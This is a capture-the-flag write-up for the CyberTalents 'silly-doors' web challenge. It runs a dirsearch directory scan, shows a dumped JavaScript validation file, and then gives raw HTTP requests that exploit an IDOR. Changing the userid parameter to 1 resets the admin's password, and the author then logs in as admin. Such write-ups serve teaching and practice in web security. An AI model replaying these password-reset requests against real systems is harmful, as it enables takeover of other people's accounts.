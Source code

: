 # Solve silly-doors
#### https://cybertalents.com/challenges/web/silly-doors

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Review all the Directories nothing interesting except `/js` and `signup.php`
Also the `PHPSESSID=a0828816c5b25c1f960cfe808fbd131f` is constant

```js
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Tue, 18 Jun 2024 21:48:08 GMT
Content-Type: application/javascript
Content-Length: 1418
Connection: close
Last-Modified: Mon, 24 Aug 2020 16:51:06 GMT
ETag: "58a-5ada264807280-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding


(function ($) {
    "use strict";

    /*==================================================================
    [ Validate ]*/
    var input = $('.validate-input .input100');

    $('.validate-form').on('submit',function(){
        var check = true;

        for(var i=0; i<input.length; i++) {
            if(validate(input[i]) == false){
                showValidate(input[i]);
                check=false;
            }
        }

        return check;
    });


    $('.validate-form .input100').each(function(){
        $(this).focus(function(){
           hideValidate(this);
        });
    });

    function validate (input) {
        if($(input).attr('type') == 'email' || $(input).attr('name') == 'email') {
            if($(input).val().trim().match(/^([a-zA-Z0-9_\-\.]+)@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{1,5}|[0-9]{1,3})(\]?)$/) == null) {
                return false;
            }
        }
        else {
            if($(input).val().trim() == ''){
                return false;
            }
        }
    }

    function showValidate(input) {
        var thisAlert = $(input).parent();

        $(thisAlert).addClass('alert-validate');
    }

    function hideValidate(input) {
        var thisAlert = $(input).parent();

        $(thisAlert).removeClass('alert-validate');
    }
    
    

})(jQuery);
```

![alt text](images/image-1.png)

### Try to signup  an account

![alt text](images/image-2.png)

![alt text](images/image-3.png)

### Try change password 
![alt text](images/image-4.png)

### Try IDOR
Change the user ID to 0
![alt text](images/image-5.png)

The requset to change password is 
```http
POST /profile/change.php HTTP/1.1
Host: wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com/profile/settings.php
Cookie: PHPSESSID=a0828816c5b25c1f960cfe808fbd131f; sessionid=54f7a053539cf0edd3738fda6fc12417; userid=6
Upgrade-Insecure-Requests: 1

newpass=test&userid=6&newrepass=test

```

Change userid to admin `1` 

```http
POST /profile/change.php HTTP/1.1
Host: wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mkm73pe2cqzqwj6zqdkgxu639-web.cybertalentslabs.com/profile/settings.php
Cookie: PHPSESSID=a0828816c5b25c1f960cfe808fbd131f; sessionid=54f7a053539cf0edd3738fda6fc12417; userid=1
Upgrade-Insecure-Requests: 1

newpass=test&userid=1&newrepass=test

```
We got 200 ok in the response 

Try to login with admin and the new password `test` 

![alt text](images/image-6.png)

>Find More on ==> github.com/MedhatHassan 
